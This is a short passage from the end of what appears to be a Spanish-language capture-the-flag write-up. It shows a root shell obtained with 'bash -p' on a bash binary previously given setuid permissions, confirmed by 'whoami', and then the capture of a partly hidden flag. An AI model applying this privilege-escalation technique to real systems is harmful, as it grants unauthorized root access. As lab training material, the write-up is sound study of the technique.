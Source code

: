 * Lanzo una bash, que se ejecutar como antes dije con privilegios del que la modificó con ese permiso, o sea `root`
```php
-bash-5.1$ bash -p
bash-5.1# whoami
root
```
* Capturo bandera

```console
xwHT----------
```
